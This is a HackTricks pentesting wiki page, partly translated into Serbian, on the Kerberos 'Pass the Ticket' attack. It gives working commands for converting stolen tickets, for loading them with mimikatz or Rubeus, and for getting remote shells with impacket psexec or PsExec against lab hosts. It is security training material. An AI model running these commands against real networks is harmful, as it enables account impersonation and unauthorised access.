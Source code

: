 # Pass the Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm\_source=hacktricks\&utm\_medium=text\&utm\_campaign=ppc\&utm\_term=trickest\&utm\_content=pass-the-ticket) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=pass-the-ticket" %}

## Pass The Ticket (PTT)

U metodi napada **Pass The Ticket (PTT)**, napadači **kradu autentifikacionu kartu korisnika** umesto njihove lozinke ili heš vrednosti. Ova ukradena karta se zatim koristi za **impostorstvo korisnika**, sticanje neovlašćenog pristupa resursima i uslugama unutar mreže.

**Read**:

* [Harvesting tickets from Windows](../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows.md)
* [Harvesting tickets from Linux](../../network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-linux.md)

### **Swaping Linux and Windows tickets between platforms**

Alat [**ticket\_converter**](https://github.com/Zer1t0/ticket\_converter) konvertuje formate karata koristeći samo kartu samu i izlaznu datoteku.
```bash
python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi

python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```
U Windows-u [Kekeo](https://github.com/gentilkiwi/kekeo) može se koristiti.

### Pass The Ticket Attack

{% code title="Linux" %}
```bash
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windows" %}
```bash
#Load the ticket in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi"
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi
klist #List tickets in cache to cehck that mimikatz has loaded the ticket
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```
{% endcode %}

## Reference

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Koristite [**Trickest**](https://trickest.com/?utm\_source=hacktricks\&utm\_medium=text\&utm\_campaign=ppc\&utm\_term=trickest\&utm\_content=pass-the-ticket) da lako izgradite i **automatizujete radne tokove** pokretane najnaprednijim **alatima** zajednice.\
Pribavite pristup danas:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=pass-the-ticket" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

